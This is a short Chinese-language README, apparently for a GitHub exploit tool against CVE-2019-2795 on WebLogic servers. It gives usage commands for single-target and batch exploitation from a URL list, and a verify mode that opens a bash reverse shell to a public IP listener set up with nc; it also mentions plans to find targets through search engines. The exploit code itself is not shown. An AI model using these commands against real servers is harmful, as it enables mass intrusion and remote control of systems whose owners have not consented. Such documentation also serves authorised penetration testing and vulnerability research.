



# 需求

Python3.x

requests库

# 单URL模式

`python3 cve-2019-2795.py http://192.168.246.132:7001/`

# 批量模式

url形如单url模式：`python3 cve-2019-2795.py -f url.txt`

# bash反弹shell

测试的时候发现有个url写了文件，但是没有命令执行，所以多加了一个verify函数，用于bash反弹shell，用法如下：`python3 cve-2019-2795.py -v http://192.168.246.132:7001/ -nc 127.0.0.1:1234`，需要先在公网IP上开启nc监听，通过-nc 指定公网IP和监听端口。

有空会写pocsuite3的poc脚本，便于从直接从搜索引擎查找目标和多线程。